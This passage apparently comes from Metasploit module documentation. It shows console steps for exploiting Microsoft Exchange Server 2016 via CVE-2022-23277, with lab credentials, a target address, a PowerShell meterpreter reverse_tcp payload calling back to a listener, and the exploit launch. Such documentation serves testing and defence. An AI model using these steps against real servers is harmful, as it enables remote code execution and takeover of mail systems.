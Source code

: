 ```
Logged On Users : 4
Meterpreter     : x86/windows
meterpreter >
```

### Exchange Server 2016 CU22 Jan22SU (Build 15.1.2375.18) on Windows Server 2016 x64 (CVE-2022-23277)

```
msf6 > use exploit/windows/http/exchange_chainedserializationbinder_rce
[*] No payload configured, defaulting to cmd/windows/powershell/meterpreter/reverse_tcp
msf6 exploit(windows/http/exchange_chainedserializationbinder_rce) > set HttpUsername aliddle
HttpUsername => aliddle
msf6 exploit(windows/http/exchange_chainedserializationbinder_rce) > set HttpPassword Password1
HttpPassword => Password1
msf6 exploit(windows/http/exchange_chainedserializationbinder_rce) > set DOMAIN EXCHG
DOMAIN => EXCHG
msf6 exploit(windows/http/exchange_chainedserializationbinder_rce) > set RHOSTS 192.168.159.42
RHOSTS => 192.168.159.42
msf6 exploit(windows/http/exchange_chainedserializationbinder_rce) > show options

Module options (exploit/windows/http/exchange_chainedserializationbinder_rce):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   HttpPassword  Password1        yes       The password to use to authenticate to the Exchange server
   HttpUsername  aliddle          yes       The username to log into the Exchange server as
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS        192.168.159.42   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT         443              yes       The target port (TCP)
   SRVHOST       0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT       8080             yes       The local port to listen on.
   SSL           true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                        no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI     /                yes       Base path
   URIPATH                        no        The URI to use for this exploit (default is random)
   VHOST                          no        HTTP server virtual host


Payload options (cmd/windows/powershell/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.250.134  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows Command


msf6 exploit(windows/http/exchange_chainedserializationbinder_rce) > exploit

[*] Started reverse TCP handler on 192.168.250.134:4444
```

[KB5008631]: https://support.microsoft.com/en-gb/topic/description-of-the-security-update-for-microsoft-exchange-server-2019-2016-and-2013-january-11-2022-kb5008631-2ee4d1f3-8341-4a4d-86be-4b73bc944f1b